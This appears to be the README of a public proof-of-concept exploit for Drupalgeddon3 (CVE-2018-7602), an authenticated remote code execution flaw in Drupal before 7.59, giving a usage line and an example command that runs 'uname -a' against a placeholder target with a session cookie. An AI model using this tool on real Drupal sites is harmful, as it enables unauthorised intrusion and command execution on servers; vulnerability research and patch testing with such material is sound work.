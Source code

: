 ### SA-CORE-2018-004
Drupalgeddon3 SA-CORE-2018-004 POC

CVE-2018-7602 - Drupal 7.x RCE

Drupal < 7.59 authenticated RCE

Requirements
python requests (pip install requests)

### Usage
`python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]`

### Example
`python drupalgeddon3.py http://target/drupal/ 'SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0' 6 'uname -a'`

<img src='https://raw.githubusercontent.com/oways/SA-CORE-2018-004/master/example.png'/>
